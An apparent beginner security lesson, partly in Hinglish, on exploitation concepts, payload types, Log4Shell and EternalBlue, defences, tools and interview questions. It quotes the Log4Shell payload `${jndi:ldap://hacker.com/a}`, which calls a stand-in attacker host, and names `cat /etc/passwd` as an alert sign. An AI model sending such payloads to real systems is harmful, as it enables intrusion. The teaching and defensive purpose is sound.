

# Exploitation Techniques: Breaking the Barrier

## 1. Beginner-friendly Hinglish Explanation 🇮🇳
Bhai, **Exploitation** ka matlab hai "Moka milte hi chauka marna." 

Pichle phases mein humne "Suraakh" (Vulnerability) dhund liye the. Ab waqt hai un suraakhon se ghar ke andar ghusne ka. Agar humne dekha ki ek purana version chal raha hai jismein galti hai, toh hum ek "Exploit" (ek special code) bhejte hain jo us galti ka fayda utha kar humein system ka "Control" de deta hai. Yeh wahi moment hai jahan hacker ko "Remote Code Execution" (RCE) milta hai—yani woh apne ghar baithe tumhare server par commands chala sakta hai.

---

## 2. Deep Technical Explanation
Exploitation is the act of using a vulnerability to gain unauthorized access or perform unauthorized actions.
- **Client-Side Exploitation**: Tricking a user into running malicious code (e.g., a malicious Office document).
- **Server-Side Exploitation**: Exploiting a service directly (e.g., a buffer overflow in a web server).
- **Payloads**: The code that runs *after* the exploit is successful (e.g., a Reverse Shell).
- **Staged vs Non-staged Payloads**: 
    - **Staged**: A small "Stager" is sent first, which then downloads the larger payload.
    - **Non-staged**: The entire payload is sent in one go.

---

## 3. Attack Flow Diagrams
**Reverse Shell Exploit:**

---

## 4. Real-world Attack Examples
- **Log4Shell (2021)**: A tiny string `${jndi:ldap://hacker.com/a}` sent to a log file allowed hackers to execute code on millions of servers globally.
- **EternalBlue (2017)**: An exploit in the Windows SMB protocol used by the NSA (and later leaked) that allowed anyone to take over unpatched Windows machines without any user interaction.

---

## 5. Defensive Mitigation Strategies
- **Patching**: The ultimate defense. If the vulnerability is fixed, the exploit won't work.
- **ASLR (Address Space Layout Randomization)**: Making it hard for exploits to find where "Safe" code is in memory.
- **WAF (Web Application Firewall)**: Blocking the "Exploit String" before it reaches the application.

---

## 6. Failure Cases
- **Crashing the Target**: Many exploits are unstable. If you run a "Buffer Overflow" and it fails, the whole server might crash (Blue Screen of Death).
- **Anti-Virus Detection**: The payload (shell) is often caught by Windows Defender or other AV tools even if the exploit itself works.

---

## 7. Debugging and Investigation Guide
- **Metasploit Framework**: The most popular tool for managing and launching exploits.
- **Searchsploit**: A command-line tool to search the "Exploit Database" (exploit-db.com) for known code.
- **Burp Suite Repeater**: Manually crafting and sending exploit payloads to web applications.

---

## 8. Tradeoffs
| Metric | Automated Exploit | Manual Exploit |
|---|---|---|
| Reliability | Medium | High |
| Stealth | Low | High |
| Effort | Low | High |

---

## 9. Security Best Practices
- **Egress Filtering**: Block servers from making "Outgoing" connections to unknown IPs (this kills most Reverse Shells).
- **Read-Only File Systems**: Even if a hacker gets an exploit, they can't save a "Shell" or "Malware" to the disk.

---

## 10. Production Hardening Techniques
- **Control Flow Integrity (CFI)**: Ensuring that the code only jumps to "Allowed" locations, making "Return-Oriented Programming" (ROP) attacks nearly impossible.
- **System Call Filtering (seccomp)**: Restricting what a process can do (e.g., a Web Server shouldn't be allowed to run `execve` to start a shell).

---

## 11. Monitoring and Logging Considerations
- **Shell Activity Logs**: Alerting if a web user (e.g., `www-data`) suddenly starts running commands like `cat /etc/passwd`.
- **Network Anomaly**: Alerting on "Beaconing"—a server talking back to a hacker's IP every 30 seconds.

---

## 12. Common Mistakes
- **Using Public Exploits "Blindly"**: Running a script from the internet without reading it first (the script might hack *you* instead).
- **Ignoring "Secondary" Vulnerabilities**: Thinking that a "Local File Inclusion" (LFI) isn't dangerous (it can often be turned into an RCE).

---

## 13. Compliance Implications
- **Ethics & Law**: Exploitation is the "Point of no return." In a legal pentest, you must stop here unless you have explicit "Exploitation Permission."

---

## 14. Interview Questions
1. What is the difference between an Exploit and a Payload?
2. What is a "Reverse Shell" and why is it used?
3. How does "Address Space Layout Randomization" (ASLR) prevent exploits?

---

## 15. Latest 2026 Security Patterns and Threats
- **Exploit-as-a-Service**: Criminal groups selling "Access" to hacked servers via pre-built exploits on the dark web.
- **AI-Crafted Payloads**: Using AI to modify shellcode so it looks like "Normal" traffic, bypassing advanced AI-based detection systems.
- **Hardware-Level Exploitation**: Exploiting vulnerabilities in the CPU itself (like Spectre/Meltdown) to steal secrets from other virtual machines.
